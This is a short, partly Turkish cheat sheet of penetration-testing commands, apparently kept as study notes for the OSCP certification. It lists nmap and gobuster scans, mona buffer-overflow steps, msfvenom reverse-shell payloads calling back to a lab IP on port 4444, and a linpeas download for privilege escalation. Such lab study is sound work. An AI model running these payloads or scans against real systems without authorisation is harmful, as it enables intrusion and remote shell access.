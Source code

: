 # OSCP-Prep-Notes

## İlk taramalar

nmap -sS -sV -v IP -p- #Tüm portlara stealth scan at.


gobuster dir -u http://192.168.174.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 #dir taraması

#-x php,txt,py,c,js,bak,gz,tar,html,db,php.bak,key,jsp,asp # extension taraması

#-b 404 -s 201 # status code özelleştirme

## BOF

!mona config -set workingfolder c:\mona\%p

!mona bytearray -b "\x00"

!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS/EBX_ADDRESS>

--

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 -b "\x00\x0a\x0d\x20\x37" -o exploit.txt

sfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c

msfvenom -p windows/exec CMD="cmd.exe" -b '\x00\x0a\x1a' -f c


msf-pattern_create -l 5000 > exploit.txt

msf-pattern_offset -q 413461A2 -l 5000







## Privilege Escalation

wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" -O linpeas.sh

sudo -l
